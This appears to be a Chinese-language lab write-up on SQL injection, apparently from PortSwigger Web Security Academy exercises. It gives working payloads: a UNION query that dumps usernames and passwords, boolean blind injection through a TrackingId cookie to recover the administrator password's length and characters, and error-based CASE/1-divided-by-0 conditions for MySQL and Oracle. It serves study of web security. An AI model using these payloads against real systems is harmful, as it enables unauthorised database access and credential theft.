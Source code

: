 最终payload：
```
/filter?category=Pets'+UNION+select+USERNAME_XEZYZA,PASSWORD_TSXMFO+from+USERS_SOPHSG--+
```


### 条件布尔盲注

先判断密码长度：
```
TrackingId=0UbSO8BsfUjt5Ndd'+and+(select+length(password)+from+users+where+username='administrator')=§6§+and+'1'='1
```
确定是20，然后进行枚举每个字符：

```
TrackingId=0UbSO8BsfUjt5Ndd'+and+substring((select+password+from+users+where+username='administrator'),1,17)='9palugrxf5py3nts§a§
```
比较漫长，听说可以用二分法，但是我还不会。

### 错误布尔盲注

不是报错注入。而是服务的响应不会因为条件的不同而变化，而是只会根据异常/错误而发生变化。

利用`CASE`关键字，
原理：
```
mysql> select username  from users where (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a';
+----------+
| username |
+----------+
| admin    |
| cqq      |
+----------+
2 rows in set (0.01 sec)

mysql> select username  from users where (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a';
Empty set, 1 warning (0.00 sec)
```

Oracle数据库：
```
	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
```


判断密码长度：
```
TrackingId=E9d1f64czlz1z3sN'+and+(SELECT+CASE+WHEN+((select+length(password)+from+users+where+username='administrator')=§6§)+THEN+to_char(1/0)+ELSE+'a'+END+FROM+dual)='a
```

当20时，响应500，可知密码长度为20。


参考：
- https://portswigger.net/web-security/sql-injection/cheat-sheet
